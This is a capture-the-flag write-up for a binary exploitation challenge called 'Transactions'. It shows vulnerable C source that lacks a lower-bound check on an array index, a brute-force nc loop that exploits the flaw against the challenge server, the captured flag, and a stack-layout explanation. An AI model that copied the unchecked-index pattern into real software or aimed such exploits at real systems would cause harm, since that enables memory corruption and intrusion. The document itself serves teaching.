


# Transactions [4]
Tags: Binary Exploitation

_After a series of bribes, break-ins, and burglaries, we got access to one of SieberrHealth's backend development tools,_ hosted at `challs.sieberrsec.tech 51384`:

```c
#include <stdio.h>
#include <stddef.h>
#include <stdlib.h>
void prompt(char *s, int *v) {
    printf(s);
    char buf[100];
    fgets(buf, 100, stdin);
    *v = atoi(buf);
}
void init() {
    puts("SieberrHealth Transactions Panel");
    puts("!!! DO NOT SHARE !!!");
    // Author's Note: you can ignore these 3 lines of code; they're not challenge-relevant
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    alarm(60); 
}
int main() { 
    init();
    int humancount = 0, humans[100], complete = 0;
    while (!complete) {
        puts("1. add a human to the health log");
        puts("2. edit individual health bill");
        puts("3. kill all patients");
        int opt;
        prompt("> ", &opt);
        switch (opt) {
        case 1:
            if (humancount > 99) puts("ERR: database too large!");
            else {
                humans[humancount++] = 0;
                printf("added a new patient. We now have %d humans.\n", humancount);
            }
            break;
        case 2:
            prompt("Which log do you want to edit? ", &opt);
            if (opt >= humancount) puts("ERR: this log does not exist!");
            else {
                int cost;
                prompt("How much should this patient be charged? ", &cost);
                humans[opt] = cost;
                printf("SieberrHealth has charged patient %d $%d!\n", opt, humans[opt]);
            }
            break;
        case 3:
            if (humancount < 6000000) {
                puts("pssst.....");
                puts("We need to collect more patients before we can enact our nerfious plans >:)");
            } else {
                puts("<----BEGINNING ACTION T5---->");
                system("cat flag");
                complete = 1;
            }
            break;
        default:
            puts("That's not an option...");
        }
    }
}
```

_If you can find a way to trigger their terrible plans ahead of schedule, we'll be able to alert the public to the true nature of SieberrHealth's plans._

Hint 1 (free): use the nc command on a linux terminal to connect to the challenge

Hint 2 (2 points): - (_this is the entire hint_)

## Understanding the program
This challenge involves a remote command-line interface, hosted at `challs.sieberrsec.tech:51384`:
```
$ nc challs.sieberrsec.tech 51384
SieberrHealth Transactions Panel
!!! DO NOT SHARE !!!
1. add a human to the health log
2. edit individual health bill
3. kill all patients
> 
```
On the backend, the program logic is very simple: there is an array of `humans[100]`, whose values can be edited using the command-line interface.

This interface has 3 options:

### 1. add
This option will increase the total number of humans registered (`humancount`) by 1, up to a maximum of 99.
```c
    if (humancount > 99) puts("ERR: database too large!");
    else {
        humans[humancount++] = 0;
        printf("added a new patient. We now have %d humans.\n", humancount);
    }
```
### 2. edit
Over here, you can edit the value of `humans[opt]`, so long as `opt < humancount`.
```c
    prompt("Which log do you want to edit? ", &opt);
    if (opt >= humancount) puts("ERR: this log does not exist!");
    else {
        int cost;
        prompt("How much should this patient be charged? ", &cost);
        humans[opt] = cost;
        printf("SieberrHealth has charged patient %d $%d!\n", opt, humans[opt]);
    }
```
### 3. T5
This final option is what you'll need to run to win the challenge. In order to pass the `if ()` statement here, you'll need to set `humancount` to a number above `6000000`.
```c
    if (humancount < 6000000) {
        puts("pssst.....");
        puts("We need to collect more patients before we can enact our nerfious plans >:)");
    } else {
        puts("<----BEGINNING ACTION T5---->");
        system("cat flag");
        complete = 1;
    }
```
At first glance, this seems to be impossible, considering the `add` procedure a few lines up only permits the addition of up to 100 humans:
```c
    if (humancount > 99) puts("ERR: database too large!");
```
Therein lies the challenge.

## What else can we do?
The first step for any binary exploitation challenge is to figure out _what input we can control_, because --- in a CTF --- there _has_ to be a pathway from input → exploit.

All user input is obtained from a single function: `prompt(...)`
```c
void prompt(char *s, int *v) {
    printf(s);      // not exploitable; s is not user-controlled
    char buf[100];
    fgets(buf, 100, stdin); // `100` is within the length of `buf[]`; no buffer overflow
    *v = atoi(buf); // this just converts a string to an integer...
}
```
`prompt()` sees references in two places:
1. the main `switch-case` loop, 
    ```c
    prompt("> ", &opt);
    switch (opt) {
        ...
    }
    ```
    and
2. the code for `edit`s:
    ```c
    case 2:
        prompt("Which log do you want to edit? ", &opt);
        if (opt >= humancount) puts("ERR: this log does not exist!");
        else {
            int cost;
            prompt("How much should this patient be charged? ", &cost);
            humans[opt] = cost;
            printf("SieberrHealth has charged patient %d $%d!\n", opt, humans[opt]);
        }
    ```
The switch-case loop itself might not be bugged...
```c
!!! DO NOT SHARE !!!
1. add a human to the health log
2. edit individual health bill
3. kill all patients
> hi
That's not an option...
1. add a human to the health log
2. edit individual health bill
3. kill all patients
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
That's not an option...
1. add a human to the health log
2. edit individual health bill
3. kill all patients
> -19528
That's not an option...
```
...but that last example there is the motif of the piece.

Depending on how much you know about C, you may be aware that an `int`eger encompasses all (mathematical) integers within the range `[-2**31, 2**31)`. When the resulting `opt`ion from `prompt()` is checked in this line:
```c
    if (opt >= humancount) puts("ERR: this log does not exist!");
```
There is no consideration for values of `opt` _smaller than_ any sensible value. So when `opt` is used to edit `humans[opt]`:
```c
    humans[opt] = cost;
```
`opt` can be any value in the range `[-2**31, humancount)`.

At this point, with knowledge of what the primary bug is, you may be inclined to use a braindead bruteforce "fuzzing" technique to get the challenge over with:
```bash
for i in `seq -10 0`
do  nc challs.sieberrsec.tech 51384 <<EOF &
2
$i
99999999
3
EOF
sleep 1; kill $(pgrep nc)
done
```
Which will eventually provide the flag:
```
> Which log do you want to edit? How much should this patient be charged? SieberrHealth has charged patient -2 $99999999!
1. add a human to the health log
2. edit individual health bill
3. kill all patients
> <----BEGINNING ACTION T5---->
IRS{g3n0c1d3_1s_b@d_0k@y}
```
You're free to call it quits at this point, but I advise you read on to understand how this works.

## ??? what just happened ???
From the output of bruteforcing, we know that setting
```c
opt = -2
```
and
```c
cost = 99999999
```
in
```c
humans[opt] = cost;
```
is enough to cause `humancount < 6000000` to become false.

This is where prior knowledge in binary exploitation is useful. When variables are defined in a C function... let's give this as an example:
```c
int main(){
    int v1;
    int v2;
    printf("stack addresses: v1 is at %p, v2 is at %p\n", &v1, &v2);
}
```
...these variables are stored sequentially on the program's [stack](https://en.wikipedia.org/wiki/Call_stack) (this is a pretty bad link; try googling for more information):
```bash
$ ./a.out 
stack addresses: v1 is at 0x7fffc5645c3c, v2 is at 0x7fffc5645c38
```
In `transactions.c`, the variable `humancount` is declared before `humans[]`:
```c
int humancount = 0, humans[100], complete = 0;
```
You can use a disassembler/decompiler (ghidra, binary ninja, IDA Pro, etc) on the [compiled `transactions` binary](https://drive.google.com/uc?id=1p2qTzONfrK_Wx-IcspcqmoFQFevcL8UJ) to figure out the exact layout of the program's stack:



This roughly corresponds to this poorly drawn diagram:



Because `continue` is located directly above `humans[]` in the stack, **`humans[-1] == continue`**.

Similarly, because `humancount` is located above `continue`, `humans[-2] == humancount`, `humans[-3] == cost`, etc.

Therefore, when we run
```c
humans[-2] = cost;
```
What this _really_ means is
```c
humancount = cost;
```
When SieberrHealth sets `humans[-2]` to 99999999:
```
SieberrHealth has charged patient -2 $99999999!
```
`humancost` is modified to become that number, and that allows for `action T5` to run.

That's it.